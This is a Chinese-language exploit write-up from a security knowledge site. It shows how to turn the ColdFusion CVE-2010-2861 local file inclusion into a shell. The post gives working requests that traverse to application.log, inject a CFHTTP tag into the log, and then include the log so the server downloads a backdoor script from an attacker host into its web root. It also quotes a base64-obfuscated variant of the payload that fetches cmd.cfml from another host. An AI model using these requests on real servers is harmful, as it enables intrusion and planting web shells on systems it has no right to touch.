


# COLDFUSION(CVE-2010-2861) 本地包含利用方法

2014/04/19 13:55 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

最近看老外的一篇文章说，CVE-2010-2861 这个利用方法，只有看到过通过读取 password.properties 里的 password 字段，破解 SHA-1 值登陆后台，或者通过传递哈希登陆后台的，还没见过能直接得到 SHELL 的。其实我以前和小伙伴讨论过利用 application.log 本地包含 CFM 的方法，当时的利用方法是这样的：

首先看看 application.log 有没有在默认的目录：

```
http://10.18.180.23:8500//CFIDE/administrator/enter.cfm?locale=..\..\..\..\..\..\..\..\ColdFusion8\logs\application.log%00en 
```

然后访问一个不存在的页面，注意编码问题，否则不成功的。

```
http://192.168.72.141:8500/%3CCFHTTP%20METHOD%3DGet%20URL%3D%23URL.u%23%20PATH%3D%23URL.p%23%20FILE%3D%23URL.f%23%3E.cfml 
```

这时候就会把`<CFHTTP METHOD=Get URL=#URL.u# PATH=#URL.p# FILE=#URL.f#>`注入到 application.log 里了，看下图：



最后我们访问

```
http://10.18.180.23:8500//CFIDE/administrator/enter.cfm?locale=................\ColdFusion8\logs\application.log%00en&u=http://10.18.180.20/dvwa/hackable/uploads/xl.txt&p=C:\ColdFusion8\wwwroot&f=shell.cfm 
```



就会从 10.18.180.20 上把 xl.txt 的 CF 后门脚本下载到目标机器的`c:\ColdFusion8\wwwroot`目录了。

我们看看老外用的方法：思路都是一样的，就是他的 payload 选择的是

```
<cfhttp method='get' url='#ToString(ToBinary('aHR0cDovLzE5Mi4xNjguMS45Nzo4MDAwL2NtZC5jZm1s'))#' path='#ExpandPath(ToString(ToBinary('Li4vLi4v')))#' file='cmd.cfml'> 
```

使用 cfm 的 CFHTTP 标签执行一个 HTTP 请求来取得 192.168.1.97:8000 WEB 服务器上的 cmd.cfml 文件，ToString(ToBinary 是为了做 BASE64 编码，绕过一些字符的限制，比如/

下面说说此法的缺点：

```
1.不是通杀的方法，如果对方禁止对外的 HTTP 访问，此法不行 
2.如果安装的时候是集成到 IIS 模式的，CF 程序目录放到其他盘符的话，是没法使用../跨目录的 
```

版权声明：未经授权禁止转载 [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [PHP 绕过 open_basedir 列目录的研究](http://drops.wooyun.org/tips/3978)
*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [Webscan360 的防御与绕过](http://drops.wooyun.org/tips/3790)
*   [HCTF writeup(web)](http://drops.wooyun.org/tips/4070)
*   [Modsecurity 原理分析–从防御方面谈 WAF 的绕过（一）](http://drops.wooyun.org/tips/3804)
*   [.user.ini 文件构成的 PHP 后门](http://drops.wooyun.org/tips/3424)